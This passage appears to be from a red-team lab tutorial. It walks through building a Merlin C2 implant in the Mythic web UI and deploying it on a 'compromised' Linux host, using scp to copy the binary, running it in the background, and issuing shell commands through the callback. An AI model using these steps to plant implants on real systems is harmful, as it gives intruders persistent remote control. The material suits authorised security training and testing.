

Merlin Agent
At the risk of sounding overly opinionated, I think the merlin payload is one of the best Linux/Unix compatible c2 implants you can find. Here is how to create a new one from within the Mythic web UI. Alternativly, here is a link you could follow for generating a merlin agent using the command line tool.
Creating a merlin agent for Linux
Building a custom merlin agent
-
Navigate to the /new/payloads path and select Generate New Payload* from the ACTIONS drop down menu
-
Select a target operating system which in this case is going to be Linux
-
On the next screen Select Target Payload Type simply accept the default and click Next
-
On the next screen Build Commands Into Agent simply accept the defaults and click Next
-
Check the radio dial next to http and update the Callback Host parameter to match the IP address of your Ubuntu VM

-
Accept the rest of the defaults and click Next
-
Type any notes you want in the Description section and click CREATE PAYLOAD

This will queue your payload for building and you can check the progress by acecssing /new/payloads. When your payload is finished being built it will have a green arrow icon under the Download column in the Payloads table. Download the payload so we can try and deploy it on our compromised Linux server.
Deploying merlin on a compromised Linux host
Since we already have a root user with SSH access, deploying this merlin agent is going to be really simple.
- First use scp to transfer the merlin binary to the realhax user’s home directory (/root)
scp merlin realhax@192.168.0.106:
- Then SSH into the host
ssh realhax@192.168.0.106
- Change the permissions on the binary so that it is executable and run it in the background
chmod 755 merlin./merlin &
On the callbacks page you can interact with a particular merlin agent by clicking on the keyboard looking icon and then issuing
a command merlin knows how to understand. Try issuing shell uname -a